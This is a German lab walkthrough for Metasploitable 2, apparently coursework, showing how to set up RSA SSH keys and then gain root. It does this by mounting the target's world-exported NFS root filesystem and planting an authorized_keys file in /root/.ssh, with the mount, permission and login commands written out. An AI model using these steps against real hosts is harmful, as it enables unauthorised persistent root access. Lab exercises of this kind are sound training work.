

# portmapper/nfs vulnerability

## Übung (ssh auf Metasploitable)

### Angabe

Als Vorbereitung für die folgende Übung.

Konfiguriere passwortloses ssh Login auf Metasploitable mit Hilfe eines ssh Public/Private keys.

Betrachte besonders die notwendigen Änderungen in ~/.ssh/authorized_keys, diese Datei muss in der nachfolgenden Übung manipuliert werden.

Hinweis: der ssh-server auf Metasploitable unterstützt nur Schlüssel im RSA Format (nicht die neueren default Formate wie ed255…).
Der Kali ssh Client lehnt die Verbindung mit diesem alten Schlüssel standardmäßig ab, aber man kann es mit Optionen wieder erzwingen.
Bei ssh Verbindungsproblemen hilft häufig die Verwendung der Verbose Optionen des ssh clients (-v, -vv oder -vvv).

### Lösung

#### Key generieren

``` bash
ssh-keygen -t rsa -b 2048 -m PEM
```

Den Key generieren 
- Speicherort stamdart lassen
- Passphrase auch leer

#### Key auf Metasploitable kopieren

``` bash
ssh-copy-id -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@<IP>
```

Hier wird der Key auf Metasploitable übertragen


#### Rechte setzen

``` bash
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

Braucht man für Verbindung

#### Verbinden auf MS

``` bash
ssh -o HostKeyAlgorithms=+ssh-rsa \
    -o PubkeyAcceptedAlgorithms=+ssh-rsa \
    msfadmin@<IP>
```


## Übung (portmapper/nfs)

### Angabe

Metasploitable 2 enthält eine Schwachstelle im Zusammenhang mit portmapper/nfs.

Informiere dich grob über nfs (network file system) und den Zusammenhang mit portmapper
Was kannst du über nmap und nmap scripts über die nfs Schwachstelle herausfinden?
Nutze die Schwachstelle aus indem du über das File-System einen ssh key in das Homeverzeichnis von root hineinschwindelst. Das Ziel ist, dass vom Angreifer-System aus ein passwortloses SSH login auf root@metasploitable möglich ist.

### Lösung

#### Was ist NFS?

Network File System (NFS) ist ein Protokoll, mit dem man Verzeichnisse über das Netzwerk freigibt, sodass sie wie lokale Ordner gemountet werden können.

Typisch:
- Server exportiert Ordner (z.B. /home)
- Client mountet diese mit mount
- Zugriff erfolgt transparent


#### Zusammenhang mit portmapper

rpcbind (früher portmapper) verwaltet RPC-Dienste wie NFS.

Ablauf:

1. Client fragt portmapper auf Port 111: → „Auf welchem Port läuft NFS?“

2. portmapper antwortet

3. Client verbindet sich zum echten NFS-Dienst

Wenn portmapper öffentlich erreichbar ist → oft Hinweis auf falsch konfiguriertes NFS.

#### Scannen nach rcpbind


Rcpbind läuft aus Port 111

#### Mount checken

```bash
showmount -e <IP>
```

Als ergebnis bekommt man /* das bedeutet alle können mounten.

#### Auf kali mounten

```bash
sudo mount -t nfs <IP>:/ /mnt
```
Jetzt ist man auf dem file system von MS




#### SSH-Key in root einschleusen

.ssh Ordner erstellen (falls nicht vorhanden):
```bash
sudo mkdir -p /mnt/root/.ssh
```
Key einfügen 

#### Rechte korrekt setzen (SEHR WICHTIG)
```bash
sudo chmod 700 /mnt/root/.ssh
sudo chmod 600 /mnt/root/.ssh/authorized_keys
```
#### Unmounten
``` bash
sudo umount /mnt
```
#### Login testen

Da Metasploitable nur alte RSA-Algorithmen unterstützt:
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa \
    -o PubkeyAcceptedAlgorithms=+ssh-rsa \
    root@<IP>
```
Wenn alles korrekt durchgeführt wurde, erfolgt der Login ohne Passwortabfrage.


